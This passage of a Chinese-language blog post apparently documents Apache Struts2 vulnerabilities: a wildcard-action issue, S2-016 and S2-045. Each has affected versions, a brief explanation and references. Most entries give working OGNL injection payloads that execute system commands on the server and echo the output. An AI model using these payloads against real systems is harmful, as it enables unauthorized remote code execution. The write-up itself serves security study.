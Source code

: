 [参考](https://www.jianshu.com/p/14a0fa48fed0)

影响版本：2.0.0 - 2.3.14.2

在 action 中配置了 `name="*"` ，且 `result` 中含有变量时，如 `{1}.jsp` ，那么 `{}` 中的内容会被当作 OGNL 表达式解析。遗憾的是这种情况下无法使用 `"`,`/`,`\` 等特殊字符。

此外，2.3.14.2 版本开始无法使用过去常用的 `#_memberAccess['allowStaticMethodAccess']=true` 来开启静态方法调用，此时可以通过反射机制来开启。

```java
%{#context['xwork.MethodAccessor.denyMethodExecution']=false,#m=#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),#m.setAccessible(true),#m.set(#_memberAccess,true),#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream()),#q}.action
```

![图 4](https://cdn.jsdelivr.net/gh/SignorMercurio/blog-cdn/Struts2/4.png)

![图 5](https://cdn.jsdelivr.net/gh/SignorMercurio/blog-cdn/Struts2/5.png)

## s2-016

[参考](https://xz.aliyun.com/t/4603)

影响版本：2.0.0 - 2.3.15

处理重定向前缀 `action:` / `redirect:` / `redirectAction:` 时对后面的 URL 进行 OGNL 解析，导致任意代码执行。

```java
index.action?redirect:${#context["xwork.MethodAccessor.denyMethodExecution"]=false,#f=#_memberAccess.getClass().getDeclaredField("allowStaticMethodAccess"),#f.setAccessible(true),#f.set(#_memberAccess,true),#a=@java.lang.Runtime@getRuntime().exec("uname -a").getInputStream(),#b=new java.io.InputStreamReader(#a),#c=new java.io.BufferedReader(#b),#d=new char[5000],#c.read(#d),#genxor=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#genxor.println(#d),#genxor.flush(),#genxor.close()}
```

## s2-045

[参考](https://paper.seebug.org/247/)

影响版本：2.3.5 - 2.3.31, 2.5 - 2.5.10

发上传数据包时，修改 `Content-Type` 头使得解析异常，从而导致报错信息被当作 OGNL 表达式执行。

实际上，并不需要使用 POST 方法，也不需要网站存在上传文件功能，只需要 `Content-Type` 中包含 `multipart/form-data` 即可。如：

```java
Content-Type: %{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('result',3048+9572)}.multipart/form-data
```

![图 6](https://cdn.jsdelivr.net/gh/SignorMercurio/blog-cdn/Struts2/6.png)

```java
Content-Type: %{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c','ipconfig'}:{'/bin/bash','-c','id'})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}.multipart/form-data
```
